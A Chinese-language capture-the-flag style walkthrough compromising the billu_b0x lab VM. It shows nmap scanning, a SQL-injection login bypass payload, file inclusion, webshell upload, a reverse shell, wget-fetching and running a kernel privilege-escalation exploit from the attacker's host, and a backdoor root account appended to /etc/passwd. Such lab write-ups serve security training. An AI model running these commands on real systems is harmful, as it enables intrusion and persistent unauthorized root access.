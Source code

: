 # billu_b0x靶场实战

1、确定主机IP

```shell
nmap -sn 192.168.12.0/24

MAC Address: 00:50:56:E9:00:06 (VMware)
Nmap scan report for 192.168.12.138

# 确定是192.168.12.138
```

2、开放端口

```shell
nmap -p 1-65535 192.168.12.138 

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:7F:C2:40 (VMware)

# 开放80、22端口
```



3、利用AWVS扫描，没有扫出什么可以利用的漏洞



4、查看页面，发现` B0X Powered By Pirates `字样

```shell
# 启动msfconsole

search Pirates
# 有一个exploit模块可以利用，尝试利用

use exploit/multi/http/agent_tesla_panel_rce

show options

set rhost 192.168.12.138

set lhost 192.168.12.135

run # 失败，不能继续利用
```



5、御剑扫描

![image-20230227183839837](https://s2.loli.net/2023/02/27/SrXLvKB9EMUJseW.png)



```shell
# 文件上传
http://192.168.12.138/add.php
```

![image-20230227184007410](https://s2.loli.net/2023/02/27/M5yTe7uNFOVrK2A.png)



```shell
# 文件下载
http://192.168.12.138/test.php
```

![image-20230227184133712](https://s2.loli.net/2023/02/27/oa3hKFvSwX8NHP1.png)





尝试下载index.php源码，真的成功了 

继续利用，将已知路径的源码下载下来，在`c.php`中发现数据库连接用户和密码

![image-20230227192054583](https://s2.loli.net/2023/02/27/v621Xl5PcY9HIDS.png)

```php
$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");
```

查看`show.php`代码，发现只要用POST传入`continue`的值就可以查询user表

![image-20230227192431565](https://s2.loli.net/2023/02/27/kxnFKruMIvCiq14.png)

随便输入一个值给`continue`

![image-20230227192547939](https://s2.loli.net/2023/02/27/h4Fc2eNSZUrb6mi.png)



6、查看`index.php`代码，发现将单引号替换成空

![image-20230227195335681](https://s2.loli.net/2023/02/27/XzgLwZlCM34TDxh.png)

可以构造sql语句，成功进入系统

```mysql
select * from auth where pass='1\' and uname=' or 1=1#'
```

![image-20230227195506389](https://s2.loli.net/2023/02/27/ZHSiOushIFRzJEN.png)



7、添加个用户试试，没有什么花样，上传图片码，再看看哪里可以使用文件包含

查看`panel.php`文件，发现load疑似有文件包含漏洞

![image-20230227202639595](https://s2.loli.net/2023/02/27/uPIxkgRswvmaM6X.png)



尝试文件包含

![image-20230227202711194](https://s2.loli.net/2023/02/27/nOdPjU8ykT7wi5V.png)

nice！！！

查看一下ls

![image-20230227203127937](https://s2.loli.net/2023/02/27/mgUGd6Ebq1J72aV.png)

看我发现了什么，刚才发现的数据库用户名和密码有用了

![image-20230227203308401](https://s2.loli.net/2023/02/27/WNc4GjfVn8dOmzy.png)

托库成功



8、获取shell

上传图片码，通过图片码修改后缀

![image-20230227210031368](https://s2.loli.net/2023/02/27/HNbTyDcpQ1xmFew.png)



上菜刀，上传冰蝎shell

![image-20230227210745264](https://s2.loli.net/2023/02/27/vwlro8dIyp1EBex.png)



反弹shell给Metepreter

![image-20230227210958419](https://s2.loli.net/2023/02/27/HgJ17zRWC5hqsjx.png)



查看系统内核版本`uname -a`

![image-20230227212721762](https://s2.loli.net/2023/02/27/74KLJRdNlqbgsSm.png)



`searchsploit 3.13.0`

![image-20230227212811593](https://s2.loli.net/2023/02/27/UVdAzMsDY1Oa9xt.png)



将`linux/local/37292.c`复制到`/tmp`，开启http服务

```
cp /usr/share/exploitdb/exploits/linux/local/37292.c /tmp

cd /tmp                                                   

python -m http.server 8080
```



在目标机上下载并编译

```
cd /tmp

wget http://192.168.12.135:8080/37292.c

gcc 37292.c -o 37292

./37292
```

![image-20230227214610422](https://s2.loli.net/2023/02/27/wmcgx9bsKhVTr4F.png)

提权成功



9、权限维持

添加用户`/etc/passwd`

```shell
perl -le 'print crypt("root@123","salt")'			# 生成加密密码
saFKJij3eLACw

echo "yunkong:saFKJij3eLACw:0:0:,,,:/root:/bin/bash" >>/etc/passwd
```

使用xshell连接（获得交互）

![image-20230227215115685](https://s2.loli.net/2023/02/27/a3TPMiqeBCLbzAg.png)

维持步骤有很多，不细说了


